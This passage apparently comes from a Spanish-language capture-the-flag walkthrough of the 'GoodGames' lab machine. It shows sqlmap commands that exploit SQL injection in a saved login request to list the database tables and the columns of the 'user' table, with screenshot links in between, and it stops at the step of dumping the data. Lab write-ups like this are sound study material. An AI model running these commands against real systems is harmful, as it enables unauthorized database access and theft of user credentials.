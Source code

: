Listar tablas

```bash
sqlmap -r reqLogin --batch -D main --tables
```

![Untitled](/assets/img/GoodGames/Untitled40.png)

Listar columnas

```bash
sqlmap -r ultimaPrueba --batch -D main -T user --columns
```

![Untitled](/assets/img/GoodGames/Untitled41.png)

Listar la data final
